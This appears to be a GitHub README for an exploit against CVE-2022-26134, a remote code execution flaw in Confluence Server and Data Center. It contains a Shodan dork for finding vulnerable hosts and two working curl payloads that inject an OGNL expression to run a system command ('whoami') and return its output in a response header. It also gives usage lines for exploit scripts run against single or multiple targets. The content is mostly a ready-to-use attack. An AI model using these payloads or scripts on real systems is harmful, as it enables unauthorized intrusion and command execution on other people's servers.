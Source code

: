 # CVE-2022-26134
Confluence Server and Data Center RCE
- Shodan dork
```
http.favicon.hash:-305179312
```

- Curl PoC

```
curl -v http://target_IP:8090/%24%7BClass.forName%28%22com.opensymphony.webwork.ServletActionContext%22%29.getMethod%28%22getResponse%22%2Cnull%29.invoke%28null%2Cnull%29.setHeader%28%22X-Cmd-Response%22%2CClass.forName%28%22javax.script.ScriptEngineManager%22%29.newInstance%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22var%20d%3D%27%27%3Bvar%20i%20%3D%20java.lang.Runtime.getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%3B%20while%28i.available%28%29%29d%2B%3DString.fromCharCode%28i.read%28%29%29%3Bd%22%29%29%7D/
```
or
```
curl -v http://target_IP:8090/${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("X-Cmd-Response",Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("nashorn").eval("var d='';var i = java.lang.Runtime.getRuntime().exec('whoami').getInputStream(); while(i.available())d+=String.fromCharCode(i.read());d"))}/
```
 
- Usage

Exploit single target
```
python3 exploit.py https://target.com CMD
```
```
python3 exploit2.py -u http://xxxxx.com -c id
```
Exploit multi-targets
```
python3 exploit2.py -f urls.txt -c id
```
<!--
```
 python3 exploit.py https://target.com CMD
```
-->
